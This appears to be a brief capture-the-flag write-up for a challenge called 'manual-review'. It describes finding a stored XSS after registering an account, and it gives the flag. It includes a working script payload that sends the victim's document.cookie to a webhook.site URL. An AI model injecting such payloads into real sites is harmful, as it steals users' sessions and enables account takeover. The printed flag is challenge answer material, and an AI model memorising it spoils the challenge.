

# manual-review

After testing some SQL Injections I decided to test te register button.
After making an account I fount a place I can submit text.
I tried an XSS injection and it worked.
So I open an webhook.site connection and tested this payload:
```html
<script>fetch('https://webhook.site/#!/view/cdc6ec13-09b6-43c1-aa8b-9fc5a6a89548?cookie='+document.cookie)</script>
```

But I didn't get the flag in the cookie the admin account gave me.
It was in the userAgent:


flag: `ctf{4852d6993069867fb5c28b8b688adb6e2b3a9230bfef807ff6ac01b4f216df7f}`

